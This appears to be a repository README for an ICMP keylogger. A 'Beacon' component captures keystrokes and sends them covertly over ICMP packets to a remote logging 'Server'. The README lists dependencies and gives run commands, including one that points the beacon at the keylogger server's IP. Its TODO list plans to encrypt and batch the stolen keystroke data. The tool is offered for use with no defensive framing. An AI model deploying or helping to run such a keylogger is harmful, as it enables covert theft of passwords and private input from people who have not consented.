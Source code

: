 # ICMP KeyLogger

## Introduction
ICMP KeyLogger is a tool designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Usage
Identifying Network Interface on Windows

To find the full name of the network interface:

cmd

ipconfig /all

Use the Description field of the relevant interface.
Running the Beacon

cmd

py ICMPbeacon.py -i "[Description from ipconfig /all]" -d [keylogger server IP]

Running the Server

bash

sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]
